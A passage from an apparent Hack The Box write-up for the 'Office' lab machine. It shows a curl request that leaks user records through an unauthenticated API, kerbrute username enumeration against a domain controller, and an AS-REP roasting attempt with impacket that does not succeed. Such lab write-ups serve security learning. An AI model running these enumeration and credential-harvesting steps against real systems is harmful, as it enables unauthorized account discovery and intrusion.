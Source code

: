 - The SQL DB is only exposed on the localhost so we can't do anything remotely but the password might be
reused for something else

- Leak the user database:

```bash
curl -v http://office.htb/api/index.php/v1/users?public=true

```

![image19](../resources/f4687a38df65433a9fcc581c9c36c163.png)

"name":"Tony Stark","username":"Administrator","email":"**Administrator@holography.htb**"

- Vind valid users:

```bash
./kerbrute userenum --dc 10.129.23.162 -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o validusers.txt

cat validusers.txt | grep "VALID" | cut -d ":" -f 4 | cut -d " " -f 2 > users.txt

```
- See if any of them are vulnerable to ASRepRoasting:

```bash
impacket-GetNPUsers office.htb/ -users validusers.txt -no-pass -dc-ip 10.129.23.162

```

![image20](../resources/7fd5519e21814da590ddef59c450ef0f.png)

But none are
